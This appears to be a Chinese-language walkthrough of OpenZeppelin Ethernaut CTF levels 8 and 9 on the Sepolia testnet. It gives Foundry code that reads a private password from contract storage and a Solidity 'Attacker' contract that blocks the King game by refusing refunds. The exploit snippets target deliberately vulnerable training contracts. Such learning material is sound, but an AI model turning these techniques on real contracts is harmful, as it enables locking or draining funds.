 示例代码：
```
Vault level = Vault(0x2a27021Aa2ccE6467cDc894E6394152fA8867fB4);

bytes32 password = vm.load(address(level), bytes32(uint256(1)));

level.unlock(password);
```
完整代码见：[这里](ethernaut/script/level08.s.sol)

Foundry 脚本：

调用脚本去读区对应插槽的值：
```
forge script script/level08.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

查询 locked 状态
```
cast call 0x2a27021Aa2ccE6467cDc894E6394152fA8867fB4 \
"locked()(bool)" \
--rpc-url sepolia
```

链上记录：
- [level(`Vault`) 实例](https://sepolia.etherscan.io/address/0x2a27021Aa2ccE6467cDc894E6394152fA8867fB4)
- [调用 `unlock` 函数](https://sepolia.etherscan.io/tx/0xf9600a8004358b0e446be4fb24152ecd4681b3a09ebb010136662ccd6a6185a1)


## lelve 9

[The Ethernaut level 9](https://ethernaut.openzeppelin.com/level/9)

这一关的要求是结束这个庞氏游戏。

仔细阅读这个合约，发现，只要发送 ether 数量比当前 `prize` 值大，就可以成为新的 `king`。同时， `owner` 有权限直接让游戏从零开始。

注意到 `receive` 函数中使用了 `transfer`，而且没有判断改方法执行是否成功。因此，可以从这里下手。只要 `tansfer` 失败了，函数回退，任何人都无法再继续这个游戏。

令 `reansfer` 失败最简单的方式就是写一个不接收 ether 的函数（没有 `fallback` 或 `receive` ），让这和合约成为新的 `king` 就行了。

步骤如下：
1. 部署一个不接收 ether 的合约
2. 令这个合约成为新的 `king`

实例代码如下：

```
contract Attacker {
    address targetAddr;
    bool locked;
    constructor(address targetAddr_) {
        targetAddr = targetAddr_;
    }

    function attack(uint value) public payable {
        (bool success, ) = targetAddr.call{value: value}("");

        require(success, "claim kingship failed");
    }

    receive() external payable {
        require(!locked, "Never send a wei");
        locked = true;
    }
}
```
